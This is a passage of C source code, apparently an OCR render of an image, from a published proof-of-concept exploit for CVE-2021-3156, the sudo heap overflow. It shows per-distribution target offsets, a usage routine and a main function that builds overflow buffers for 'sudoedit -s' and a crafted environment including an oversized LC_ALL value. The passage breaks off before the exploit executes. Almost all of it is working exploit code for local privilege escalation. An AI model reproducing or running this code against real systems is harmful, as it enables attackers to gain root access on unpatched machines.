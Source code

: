 ```
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    printf("  usage: %s <target>\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    printf("  ------------------------------------------------------------\n");
    printf("\n");
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = &targets[ atoi(argv[1]) ];

    printf("using target: '%s'\n", target->target_name);

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");  //16
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

```